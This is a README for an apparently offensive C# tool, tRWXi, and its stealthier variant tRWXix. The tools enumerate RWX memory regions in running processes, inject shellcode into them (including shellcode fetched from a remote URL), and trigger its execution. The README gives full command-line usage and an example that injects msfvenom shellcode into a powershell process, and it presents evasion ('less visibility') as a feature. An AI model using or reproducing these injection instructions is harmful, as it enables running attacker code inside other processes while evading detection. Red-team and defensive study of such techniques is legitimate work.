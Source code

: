 # tRWXi

trovent RWX injector

### Description
We are all familiar with the concept of process injection through the RWX memory region.\
The **tRWXi.exe** tool is a simple implementation of this in C#.

For a more stealthy mode, see the implementation of the **tRWXix.exe** tool described below. 

### Usage
```
Usage:
        .\tRWXi.exe /enumerate                                                              --> only enumerate
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /url=<remote shell code>     --> inject a shellcode from remote source into the RWX region 
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /data=<hex code>             --> inject a shellcode as a parameter into the RWX region
        .\tRWXi.exe /read    /pid=<pid> /address=<hex address> /size=<size>                 --> read a content of memory address
        .\tRWXi.exe /trigger /pid=<pid> /address=<hex address>                              --> trigger code execution from a memory address
```

### Example
- Generate a shellcode in a numeric format (msfvenom -f num):
![shellcode_format](./_readme.d/01-injector-2.png)
- Enumerate the RWX memory regions in all processes that the current user can access:
![RWX enumeration](./_readme.d/01-injector-3.png)
- Inject a shellcode into the RWX region (address:0x1CD1F910000) of the powershell process (PID:6772) and trigger it:
![shellcode_injection](./_readme.d/01-injector-4.png)

# tRWXix

tRWXi functionality w/ NtApiDotNet library

### Description
Same functionality as of **tRWXi**.\
Pure **NtApiDotNet** implementation for less visibility.

### Usage
```
Usage:
        .\tRWXi.exe /enumerate                                                              --> only enumerate
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /url=<remote shell code>     --> inject a shellcode from remote source into the RWX region 
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /data=<hex code>             --> inject a shellcode as a parameter into the RWX region
        .\tRWXi.exe /read    /pid=<pid> /address=<hex address> /size=<size>                 --> read a content of memory address
        .\tRWXi.exe /trigger /pid=<pid> /address=<hex address>                              --> trigger code execution from a memory address
```

### Example
- Inject the shellcode in a process from a remote web server and trigger its execution:
![shellcode_format](./_readme.d/02-injector-1.png)
- Read the modified address:
![RWX enumeration](./_readme.d/02-injector-2.png)
- Trigger the memory region w/ a shellcode inside it
![RWX enumeration](./_readme.d/02-injector-3.png)
